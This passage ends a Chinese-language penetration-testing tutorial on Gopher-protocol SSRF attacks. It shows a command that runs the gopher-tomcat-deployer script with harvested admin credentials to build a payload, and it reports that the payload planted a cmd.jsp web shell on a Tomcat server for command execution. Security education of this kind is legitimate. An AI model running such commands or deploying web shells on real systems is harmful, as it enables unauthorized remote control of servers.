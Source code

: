 ![](https://gitee.com/fuli009/images/raw/master/public/20220924223603.png)

使用脚本执行一键RCE。  

脚本https://github.com/pimps/gopher-tomcat-deployer

我们用刚才读取出的账号密码构建：：

  * 

    
    
    python gopher-tomcat-deployer.py -u admin -p admin -t 127.0.0.1 -pt 8080 cmd.jsp

![](https://gitee.com/fuli009/images/raw/master/public/20220924223605.png)

将生成的gopher导入payload 中：  

![](https://gitee.com/fuli009/images/raw/master/public/20220924223607.png)

成功生成cmd目录和cmd.jsp并能执行命令。

![](https://gitee.com/fuli009/images/raw/master/public/20220924223608.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220924223610.png)

  

##

 **总结**

##

虽然Gopher协议已经渐渐退出了历史的舞台，但是对渗透来说仍然是个不可低估的协议。它总能扩大思维结合其他漏洞进行许多拓展攻击。

参考链接：

  *   *   *   *   * 

    
    
    https://en.wikipedia.org/wiki/Gopher_(protocolhttps://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.htmlhttps://joychou.org/web/phpssrf.htmlhttps://blog.chaitin.cn/gopher-attack-surfaces/https://staaldraad.github.io/2016/12/11/xxeftp/

  

![](https://gitee.com/fuli009/images/raw/master/public/20220924223611.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20220924223612.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

